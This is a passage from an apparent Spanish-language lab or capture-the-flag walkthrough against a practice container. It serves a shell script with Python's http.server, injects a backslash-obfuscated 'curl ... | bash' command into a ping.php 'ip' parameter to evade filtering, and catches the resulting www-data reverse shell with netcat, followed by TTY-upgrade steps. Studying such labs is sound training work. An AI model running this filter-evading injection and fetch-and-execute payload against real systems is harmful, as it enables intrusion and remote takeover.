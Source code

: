 Abriremos un servidor de `python` para que pueda coger el archivo.

```shell
python3 -m http.server 80
```

Vamos a realizar este comando:

```shell
curl -s http://192.168.1.146/shell.sh | bash
```

Cambiar la `IP` (`192.168.1.146`) por la vuestra, en mi caso quedaria algo asi:

```
URL = http://<IP>/ping.php?ip=<IP_ATTACKER>;\c\u\r\l+ -\s+ h\t\t\p://1\9\2.1\6\8.1.1\4\6/s\h\e\l\l.sh+|\b\a\s\h
```

Antes de ejecutarlo nos pondremos a la escucha de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos ese `payload` y volvemos a donde tenemos la escucha veremo lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [172.17.0.2] 58866
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b2e08b52d168:/var/www/html$ whoami
whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a sanitizar la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
